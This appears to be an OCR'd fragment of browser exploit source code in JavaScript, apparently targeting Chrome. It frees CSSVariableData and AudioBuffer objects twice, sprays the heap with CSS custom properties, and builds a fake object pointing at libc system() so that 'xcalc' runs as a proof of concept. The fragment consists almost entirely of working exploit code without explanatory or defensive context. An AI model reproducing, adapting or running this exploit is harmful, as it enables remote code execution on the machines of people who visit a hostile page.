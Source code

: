 ```html
      gc();
      setTimeout(doubleFree, 1000);
    }

    async function doubleFree() {
      console.log("start free(CSSVariableData)")
      let div0 = document.getElementById('div0');
      let div1 = document.getElementById('div1');
      let audioCtxDelay = audioCtxArr.pop();
      let delayNode = delayNodeArr.pop();
      let srcNode = srcNodeArr.pop();

      let ab = new ArrayBuffer(0x600);
      let abFakeObj = new ArrayBuffer(0x600);
      let view = new BigUint64Array(ab);
      let viewFakeObj = new DataView(abFakeObj);
      view[0] = swapEndian(fakePannerAddr - 0x10n);

      for (let i = 0; i < viewFakeObj.byteLength; i++)
        viewFakeObj.setUint8(i, 0x4a); // "J"

      const system_addr = chromeBase + kSystemLibcOffset;
      // call   qword ptr [rax + 8]
      viewFakeObj.setBigUint64(0x0, fakePannerAddr + 8n - 8n, true);
      // viewFakeObj.setBigUint64(8, 0xdeadbeefn, true);
      viewFakeObj.setBigUint64(0x8, chromeBase + kWriteListenerOffset,
        true);
      // fake BindState addr
      viewFakeObj.setBigUint64(0x10, fakePannerAddr + 0x18n, true);

      // start of fake BindState
      // 0x636c616378 == xcalc
      viewFakeObj.setBigUint64(0x18 + 0,
        0x636c616378n /* -1 because ref_count_ + 1 */ - 1n, true);
      viewFakeObj.setBigUint64(0x18 + 0x8, system_addr, true);

      let rs = getComputedStyle(div0);
      for (let i = 0; i < 10; i++) {
        div1.style.setProperty(`--sprayD${i}`, kCSSStringCross0x2000);
      }
      rs.getPropertyValue(kTargetCSSVar);
      div0.style.removeProperty(kTargetCSSVar);
      gc(); gc();
      await sleep(1000);
      console.log("start free(AudioBuffer)");

      // ((0.466796875 * 4096 * 1024) / 1024 + 0x80) * 4 + 0x20 == 0x2000
      let delayToAlloc0x2000 = 0.466796875;
      audioCtxDelay.oncomplete = async () => {
        // now freelist is circular A => A
        console.log("delay nodes deleted, freelist should be circular");
        gc(); gc(); gc(); gc();
        await sleep(3000);


        // overwrite freelist pointer to fakePannerAddr
        // allocAudioArray copy/paste function because on call the same
        // func 3 times will start compilation and change heap layout
        let audioCtxDelay = new OfflineAudioContext(1, 4096, 4096);
        let delayNode = audioCtxDelay.createDelay(delayToAlloc0x2000);
        let buffer = audioCtx.createBuffer(1, 0x600, 4096);
        let dstData = buffer.getChannelData(0);
        new Uint8Array(dstData.buffer).set(new Uint8Array(ab));
```